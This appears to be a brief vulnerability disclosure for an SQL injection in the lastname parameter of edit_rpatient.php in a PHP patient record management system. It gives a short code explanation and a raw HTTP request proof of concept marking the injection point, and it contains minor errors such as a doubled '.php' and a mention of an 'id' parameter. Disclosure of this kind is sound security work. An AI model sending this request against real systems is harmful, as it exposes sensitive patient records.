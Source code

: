 # cve
# patient-record-management-system-in-php has sql injection in /edit_rpatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/edit_rpatient.php lastname parameter

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in edit_rpatient.php. The parameters that can be controlled are as follows: $lastname . This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $lastname parameter is obtained in edit_rpatient.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/48c50974-949c-48cb-844b-8d5d5ef20090)



## POC

```
GET /edit_rpatient.php.php?lastname =1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
